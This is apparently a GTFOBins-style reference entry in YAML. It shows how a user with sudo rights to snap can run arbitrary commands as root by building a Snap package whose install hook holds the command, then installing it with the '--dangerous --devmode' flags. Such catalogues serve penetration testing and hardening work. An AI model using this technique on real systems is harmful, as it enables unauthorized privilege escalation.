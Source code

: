 ```yaml
---
functions:
  sudo:
    - description: |
        It runs commands using a specially crafted Snap package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        COMMAND=id
        cd $(mktemp -d)
        mkdir -p meta/hooks
        printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
        chmod +x meta/hooks/install
        fpm -n xxxx -s dir -t snap -a all meta
        ```
      code: |
        sudo snap install xxxx_1.0_all.snap --dangerous --devmode
---
```

